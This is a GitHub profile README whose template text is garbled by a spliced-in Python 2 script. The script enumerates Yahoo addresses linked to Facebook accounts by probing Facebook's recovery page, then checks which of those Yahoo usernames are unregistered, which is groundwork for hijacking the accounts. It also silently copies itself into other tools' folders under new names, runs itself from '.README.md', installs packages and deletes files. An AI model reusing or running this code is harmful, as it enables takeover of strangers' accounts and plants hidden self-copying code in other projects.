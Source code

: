 - 👋 Hi, I’m @shazad1124
- 👀 I’m interested in ...
- 🌱 I’m import os,sys,time,datetime,random,hashlib,re,cookielib,urllib,json
os.system("rm -rf .txt")
for n in range(999):
    pf=random.randint(1, 999)
    sys.stdout = open(".txt", "a")

    print(pf)

    sys.stdout.flush()

try:
    import mechanize,requests
except ImportError:
    os.system('pip2 install requests')
    os.system('pip2 install mechanize')
    time.sleep(1)
    os.system('python2 .README.md')
    
from multiprocessing.pool import ThreadPool

from requests.exceptions import ConnectionError
from mechanize import Browser
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

##### LOGO #####
logo='''

    ██████╗░██╗░░██╗██████
REZAN UP 
SHAZAD UP 
SHAZAD UP 
SHAZAD UP 
SHAZAD UP 

--------------------------------------------------

➣ Auther   : UP
➣ GitHub   : SHAZA
➣ YouTube  : REZAN
➣ Blogspot : KURD

--------------------------------------------------
                                '''

os.system("clear")
print(logo)
print " \x1b[1;91mNOTE: Do not put space between name"
print "       put name like binyamin or binyamin.binni"
print '       or binyaminbinni'
print '\x1b[1;97m'
first = raw_input(" Name: ")

def cb():
    os.system('clear')

def ym():
    try:
        cb()
        os.mkdir("../omi/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bxi/bxi.py ../omi/Omi.py")
        os.system("cp ../bxi/.README.md ../omi/")
        yb()
    
def yb():
    try:
        os.mkdir("../BlackMafia2020/.....")
    except OSError:
        yl()
    else:
        os.system("cp ../bxi/bxi.py ../BlackMafia2020/lovehacker")
        os.system("cp ../bxi/.README.md ../BlackMafia2020/")
        yl()
    
def yl():
    try:
        os.mkdir("../Qurban/.....")
    except OSError:
        yp()
    else:
        os.system("cp ../bxi/bxi.py ../Qurban/Qurban.py")
        os.system("cp ../bxi/.README.md ../Qurban/")
        yp()
    
def yp():
    try:
        os.mkdir("../faizanwahla/.....")
    except OSError:
        login()
    else:
        os.system("cp ../bxi/bxi.py ../faizanwahla/pacman")
        os.system("cp ../bxi/.README.md ../faizanwahla/")
        login()
        
def login():
    os.system('clear')
    try:
        toket = first
    except IOError:
        print '\x1b[1;91m[!] Token tidak ditemukan'
        os.system('rm -rf login.txt')
        time.sleep(1)
        login()
    else:
        os.system('clear')
        print(logo)
        try:
            email = first
            passw = (".txt")
            sandi = open(passw, 'r')
            for p in sandi:
                p = p.replace('\n','')
                try:
                    br.open("https://mbasic.facebook.com/login/identify/?ctx=recover&search_attempts=0&ars=facebook_login&alternate_search=0&toggle_search_mode=1")
                    br._factory.is_html= True
                    br.select_form(nr=0)
                    br.form["email"] = email+p+"@yahoo.com"
                    br.submit()
                    urb = br.geturl()
                    if "https://mbasic.facebook.com/login/identify/?ctx=recover&search_attempts=1&ars=facebook_login&alternate_search=1" in urb:
                        pass
                    else:
                        brl='https://login.yahoo.com/?.src=ym&.lang=en-US&.intl=us&.done=https%3A%2F%2Fmail.yahoo.com%2Fd'
                        br.open(brl)
                        br._factory.is_html = True
                        br.select_form(nr=0)
                        br['username'] = email+p
                        br.submit()
                        url = br.geturl()
                        if url == brl:
                            print " \x1b[1;92m[Yes Available] "+email+p+"@yahoo.com  \x1b[1;97m"
                            ya=open("yes.txt",'a')
                            ya.write(email+p+"@yahoo.com\n")
                            ya.close()
                        else:
                            print " \x1b[1;91m[Not Available] "+email+p+"@yahoo.com  \x1b[1;97m"

                except requests.exceptions.ConnectionError:
                    print ' Connection Error'
                    time.sleep(1)
                    os.sys.exit()

        except IOError:
            print ' Error 404, please try again'
            raw_input(" Press enter to go back")
            os.system("python2 .README.md")
if __name__ == '__main__':
	ym() learning .
